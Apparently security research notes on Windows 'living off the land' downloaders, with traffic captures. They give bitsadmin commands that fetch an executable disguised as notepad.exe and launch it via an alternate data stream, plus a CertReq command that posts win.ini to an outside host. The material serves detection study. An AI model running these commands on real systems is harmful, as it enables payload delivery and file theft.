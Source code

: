 # Living off the land

## Downloader

### 1. Bitsadmin.exe

```powershell
bitsadmin /create myfile
bitsadmin /addfile myfile http://192.168.220.125/white_process/call_calc.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

或参考 `Micro8` 的方法

```powershell
bitsadmin /rawreturn /transfer down "http://192.168.1.115/robots.txt" E:\PDF\robots.txt
```

[***pcap***](/assets/pcap/Bitsadmin.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
Range: bytes=0-71744
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```



目前从流量中看到的, 以新版edge浏览器下载chrome系插件为主, uri样例:

`edgedl/release2/chrome_component/APXXLABkvVhhXtYF5CAJK8E_43/G7yvLIv4RYlDG8Af2QDjoQ`



### 2. CertReq.exe

```powershell
CertReq -Post -config https://example.org/ c:\windows\win.ini
```

[***pcap***](/assets/pcap/CertReq.pcap)

```http
POST /white_process/test HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.18362.1/19h1_release)
Content-Length: 167
Host: 192.168.220.125
```
